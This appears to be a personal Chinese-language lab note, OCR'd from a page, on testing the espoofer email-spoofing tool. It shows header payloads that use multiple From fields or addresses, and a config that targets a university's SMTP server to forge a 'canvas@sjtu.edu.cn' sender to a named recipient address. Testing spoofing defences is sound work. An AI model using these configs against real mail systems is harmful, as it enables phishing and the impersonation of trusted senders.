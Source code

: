 
以下尝试都使用Client Mode，对于不同的client mode，攻击原理不同：

* Client_a1: "Spoofing via an email service account using multiple From headers."

  即在from_header中给定多个From字段

  ~~~py
  "data": {
  	"from_header": b"From: <attacker@example.com>\r\nFrom: <admin@example.com>\r\n",
  	......
  },
  ~~~

* Client_a2: "Spoofing via an email service account using multiple address."

  即在from_header中给定多个address

  ~~~python
  "data": {
  	"from_header": b"From: <attacker@example.com>, <admin@example.com>\r\n",
  	......
  },
  ~~~

* Client_a3: "Spoofing via an email service account."

## Attempt1：sjtu => sjtu

交大邮箱同时作为发送方和接收方

~~~py
config = {
	"attacker_site": b"attack.com", # attack.com
	"legitimate_site_address": b"canvas@sjtu.edu.cn", # From header address displayed to the end-user
	"victim_address": b"kr2256671169@sjtu.edu.cn", # RCPT TO and message.To header address,
	"case_id": b"client_a1", #  You can find all case_id using -l option.

	# The following fields are optional
	"server_mode":{
		"recv_mail_server": "", # If no value, espoofer will query the victim_address to get the mail server ip
		"recv_mail_server_port": 25,
		"starttls": False,
	},
	"client_mode": {
		"sending_server": ("smtp.sjtu.edu.cn", 25),
		# "sending_server": ("smtp.163.com", 25),
		"username": b"yzd030320@sjtu.edu.cn",
		"password": b"********",
	},
  
  ......
}
~~~
